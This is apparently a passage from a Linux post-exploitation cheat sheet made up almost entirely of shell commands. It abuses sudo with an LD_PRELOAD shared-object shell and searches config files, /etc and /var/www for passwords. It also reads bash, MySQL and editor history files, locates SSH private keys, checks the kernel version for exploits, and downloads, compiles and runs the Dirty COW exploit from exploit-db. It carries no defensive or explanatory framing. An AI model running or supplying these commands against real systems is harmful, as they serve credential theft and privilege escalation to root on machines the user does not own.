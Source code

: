 ```bash
sudo LD_PRELOAD=/tmp/shell.so apache2
```

## Search for database configuration files
```bash
find / -name "*.conf" -o -name "*.config" -o -name "*.cfg" 2>/dev/null | grep -E "(database|db|mysql|postgres|mongo)"
```

## Search for web application configs
```bash
find /var/www -name "*.php" -o -name "*.config" -o -name "*.ini" 2>/dev/null
grep -r "password\|passwd\|pwd" /var/www/ 2>/dev/null
```

## Search for credentials in common config locations
```bash
grep -r "password\|passwd\|pwd\|pass" /etc/ 2>/dev/null
grep -r "DB_PASSWORD\|DATABASE_PASSWORD" /var/www/ 2>/dev/null
```

## Check bash history for credentials
```bash
cat ~/.bash_history
cat ~/.mysql_history
cat ~/.nano_history
cat ~/.vim_history
find /home -name ".*history" 2>/dev/null
```

## Search for SSH private keys
```bash
find / -name "id_rsa" -o -name "id_dsa" -o -name "id_ecdsa" -o -name "id_ed25519" 2>/dev/null
find / -name "authorized_keys" 2>/dev/null
find /home -name ".ssh" 2>/dev/null
```

## Check kernel version for exploit research
```bash
uname -r
uname -a
cat /proc/version
```

## Compile and run Dirty COW exploit
```bash
curl -o dirty.c https://www.exploit-db.com/download/40611
gcc -pthread dirty.c -o dirty -lcrypt
./dirty password123
```
